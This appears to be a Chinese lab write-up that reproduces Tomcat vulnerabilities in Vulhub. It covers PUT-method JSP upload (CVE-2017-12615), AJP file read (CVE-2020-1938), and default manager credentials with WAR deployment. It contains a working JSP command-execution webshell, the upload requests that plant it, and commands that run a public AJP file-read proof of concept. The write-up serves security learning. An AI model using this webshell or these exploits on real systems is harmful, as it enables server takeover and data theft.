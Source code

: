 # 1.**Tomcat常见漏洞**

## 1.1.**前言**

整个复现环境均使用Vulhub一键搭建漏洞测试靶场。

[Vulhub靶场](https://vulhub.org/#/environments/tomcat/CVE-2017-12615/)

## 1.2.**文件上传 (CVE-2017-12615)**

### 1.2.1.**漏洞原理**

Tomcat配置文件/conf/web.xml 配置了可写（readonly=false），导致可以使用PUT方法上传任意文件，攻击者将精心构造的payload向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

![img](assets/wps1-1690345098026-2.jpg) 

### 1.2.2.**影响版本**

Apache Tomcat 7.0.0 – 7.0.81

### 1.2.3.**漏洞复现**

#### 1.2.3.1.**测试是否允许PUT**

这里修改请求方式为OPTIONS /xx HTTP/1.1，通过修改后发现允许PUT方法。

![img](assets/wps2-1690345098025-1.jpg) 

#### 1.2.3.2.**验证漏洞是否存在**

这里修改请求方式为：PUT /test.jsp/ HTTP/1.1，请求体为：<%out.print("hacker"); %>，然后访问test.jsp。

![img](assets/wps3-1690345098026-3.jpg) 

#### 1.2.3.3.**访问test.jsp**

URL：http:ip地址:端口/test.jsp

![img](assets/wps4-1690345098026-4.jpg) 

#### 1.2.3.4.**上传执行命令脚本**

修改请求头PUT /test.jsp/ HTTP/1.1，修改请求体。

请求体：

```
<%

  if("123".equals(request.getParameter("pwd"))){

​    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

​    int a = -1;      

​    byte[] b = new byte[1024];      

​    out.print("<pre>");      

​    while((a=in.read(b))!=-1){

​      out.println(new String(b));      

​    }

​    out.print("</pre>");

  } 

%>
```

![img](assets/wps5-1690345098026-5.jpg) 

#### 1.2.3.5.**执行命令**

```
http://ip地址:8080/test.jsp?&pwd=123&cmd=ls
```

![img](assets/wps6-1690345098026-6.jpg) 

## 1.3.**文件包含漏洞（CVE-2020-1938）**

### 1.3.1.**漏洞原理**

Tomcat 配置了两个Connecto，它们分别是 HTTP 和 AJP ：HTTP默认端口为8080，处理http请求，而AJP默认端口8009，用于处理 AJP 协议的请求，而AJP比http更加优化，多用于反向、集群等，漏洞由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件以及可以包含任意文件，如果有某上传点，上传图片马等等，即可以获取shell。

### 1.3.2.**影响版本**

Apache Tomcat 6

Apache Tomcat 7 < 7.0.100

Apache Tomcat 8 < 8.5.51

Apache Tomcat 9 < 9.0.31

开启了8009端口的ajp服务

### 1.3.3.**漏洞复现**

#### 1.3.3.1.**访问页面**

访问http://your-ip:8080即可查看tomcat默认页面，此时通过AJP协议的8009端口亦可访问Tomcat。

![img](assets/wps7-1690345098026-7.jpg) 

#### 1.3.3.2.**POC下载**

[POC链接](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

当然你也可以在kali中使用命令进行下载，检测等，不过我这里由于网络原因一直下载不下来，我就用本机下载再上传虚拟机了。

命令：

```
git clone https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi  

cd CNVD-2020-10487-Tomcat-Ajp-lfi  

python CNVD-2020-10487-Tomcat-Ajp-lfi.py   #py2环境  
```

![img](assets/wps8-1690345098026-8.jpg) 

#### 1.3.3.3.**POC验证**

这里查看8009端口下的web.xml文件

```
命令：python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py IP地址 -p 8009 -f /WEB-INF/web.xml
```

![img](assets/wps9-1690345098026-9.jpg) 

## 1.4.**弱口令&war远程部署**

### 1.4.1.**漏洞原理**

在tomcat8环境下默认进入后台的密码为tomcat/tomcat，未修改造成未授权即可进入后台。

### 1.4.2.**影响版本**

全版本

### 1.4.3.**漏洞复现**

#### 1.4.3.1.**访问后台**

这里首先需要先访问后台管理。

```
http://ip地址:8080/manager/html
```

![img](assets/wps10-1690345098026-10.jpg) 

#### 1.4.3.2.**后台管理**

在后台有一个上传war包的地方，这里就是我们用来上传木马的地方，这里我没准备jsp马，我使用msf来进行操作吧。

![img](assets/wps11-1690345098026-11.jpg) 

#### 1.4.3.3.**进入模块**

进入msf里面的exploit/multi/http/tomcat_mgr_upload模块。

![img](assets/wps12-1690345098026-12.jpg) 

#### 1.4.3.4.**获取shell**

我这边由于使用云服务器，存在反弹的端口不通，可能被拦截了，所以就没有反弹回来。

![img](assets/wps13-1690345098026-13.jpg) 

 

 

 

 

 